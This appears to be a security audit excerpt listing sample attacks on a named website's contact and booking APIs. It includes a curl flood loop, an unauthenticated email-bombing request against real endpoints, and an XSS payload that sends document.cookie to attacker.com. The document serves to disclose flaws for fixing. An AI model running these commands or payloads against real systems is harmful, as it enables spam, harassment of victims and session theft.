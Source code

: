 
## Sample Attack Scenarios

### Scenario 1: Form Spam Attack
```bash
# Attacker floods contact form
while true; do
  curl -X POST https://www.agentico.com.au/api/contact \
    -H "Content-Type: application/json" \
    -d @spam_payload.json
  sleep 0.1
done

# Result: 
# - 1000s of emails sent (Postmark costs)
# - 1000s of OpenAI API calls (expensive GPT-4 calls)
# - Notion database flooded
# - n8n webhook overwhelmed
# Mitigation: NONE (no rate limiting exists)
```

### Scenario 2: Email Bombing via Booking Link
```bash
# Attacker uses booking link API to spam someone
curl -X POST https://www.agentico.com.au/api/elevenlabs/booking/send-link \
  -H "Content-Type: application/json" \
  -d '{"fullName":"Attacker","email":"victim@example.com"}'

# Result:
# - Email sent to victim without authentication
# - Can be repeated unlimited times
# - Your domain reputation damaged
# Mitigation: NONE (no authentication)
```

### Scenario 3: XSS via Contact Form
```javascript
// Attacker submits form with XSS payload
{
  "fullName": "John Doe",
  "projectDescription": "<img src=x onerror=\"fetch('https://attacker.com?cookie='+document.cookie)\">",
  "specificProcesses": "Normal looking text with <script>steal_data()</script>"
}

// Result:
# - Stored in Notion (potential XSS there)
# - Sent in sales notification email
# - If email client renders HTML: XSS executed
# Mitigation: PARTIAL (Zod validates type but doesn't sanitize)
```

---